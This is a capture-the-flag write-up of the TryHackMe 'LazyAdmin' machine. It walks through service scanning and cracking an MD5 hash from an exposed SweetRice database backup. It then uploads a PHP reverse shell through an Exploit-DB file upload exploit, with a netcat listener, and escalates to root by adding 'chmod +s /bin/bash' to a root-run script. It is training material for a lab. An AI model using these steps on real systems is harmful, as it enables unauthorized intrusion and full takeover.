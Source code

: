 ```yaml
---
title: "TryHackMe - Lazy Admin"
author: Nasrallah
description: ""
date: 2022-04-07 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, crack, easy]
#img_path: /assets/img/tryhackme
image:
  src:
  width:
  height:
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [LazyAdmin](https://tryhackme.com/room/lazyadmin) from [TryHackMe](https://tryhackme.com). We find a webserver running a vulnerable 

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.151.18
Host is up (0.099s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got ssh on port 22 and a http webserver on port 80, let's check the webserver.


## Webserver

Let's navigate to the web page.

![](/assets/img/tryhackme/lazyadmin/l1.png)

It's the default page of Apache, nothing useful, let's run directory scan.

## Gobuster

```Terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.149.81/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/13 07:44:21 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.149.81/content/]
/index.html           (Status: 200) [Size: 11321]                                 
/server-status        (Status: 403) [Size: 277]                                   
===============================================================
```

We found a directory called **/content**, let's navigate to it.

![](/assets/img/tryhackme/lazyadmin/l2.png)

We found a welcome page of **SweetRice** website management system, I searched for SweetRice on [Exploitdb](https://www.exploit-db.com/) and found that it has a backup disclosure vulnerability, this [exploit](https://www.exploit-db.com/exploits/40718) explains how to get a mysql backup.

![](/assets/img/tryhackme/lazyadmin/l3.png)

We can navigate to `http://{target_IP}/inc/mysql_backup` and find a mysql backup file.

![](/assets/img/tryhackme/lazyadmin/l4.png)

Let's download the file to our machine and see what it has for us.

![](/assets/img/tryhackme/lazyadmin/l5.png)

The file has the username **manager** and a password hash that looks like an md5 hash, so we can use [crackstation](https://crackstation.net/) to crack the password.

![](/assets/img/tryhackme/lazyadmin/l6.png)

We managed to crack the password, but where to use it.

Let's run another directory scan but this time on **/content**.

```Terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.18/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/08 12:15:07 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.151.18/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.151.18/content/as/]     
/attachment           (Status: 301) [Size: 325] [--> http://10.10.151.18/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.151.18/content/images/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.151.18/content/inc/]       
/index.php            (Status: 200) [Size: 2198]                                             
/js                   (Status: 301) [Size: 317] [--> http://10.10.151.18/content/js/]        

===============================================================
```

Let's see what on **/as** directory, navigate to `http://{target_IP}/content/as`.

![](/assets/img/tryhackme/lazyadmin/l8.png)

Great! We found a login page, let's use the credentials we found to login.

![](/assets/img/tryhackme/lazyadmin/l9.png)


# **Foothold**

We have access, now what? Earlier when we searched for possible exploits, there was an *arbitrary file upload* exploit in [Exploitdb](https://www.exploit-db.com/).

![](/assets/img/tryhackme/lazyadmin/l10.png)

Download the exploit [here](https://www.exploit-db.com/exploits/40716) and run it with `sudo python3 {exploitfile}`.

![](/assets/img/tryhackme/lazyadmin/l11.png)

We need to provide the target url `{target_IP}/content`, the username `manager`, the password we managed to crack, and a php reverse shell, in my case i used this one from [pentestmonkeys](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), the extension of the file has to be `php5` for a successful upload.

Now let's set up a listener on our machine with `nc -lvnp {port_number}` and visit the link the exploit gave us `http://target_IP/content/attachment/reverse.php5`

![](/assets/img/tryhackme/lazyadmin/l12.png)

Great! We managed to get a shell, and i used the python3 pty trick to get a functional shell, now the privesc part.


# **Privilege Escalation**

Let's check our privileges by running `sudo -l`

![](/assets/img/tryhackme/lazyadmin/l13.png)

We can run a perl script as root. We don't have write permissions on the script so let's check script does.

![](/assets/img/tryhackme/lazyadmin/l14.png)

backup.pl just runs another script called copy.sh, and we have write permissions on that file.

I added the following command: `chmod +s /bin/bash`, this gives suid permission to /bin/bash so that i can run it as it's owner root, i run the perl script after that and we can see the suid bit got added to /bin/bash.

running `/bin/bash -p` will give us a root shell

![](/assets/img/tryhackme/lazyadmin/l15.png)

And just like that we have rooted **LazyAdmin**.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
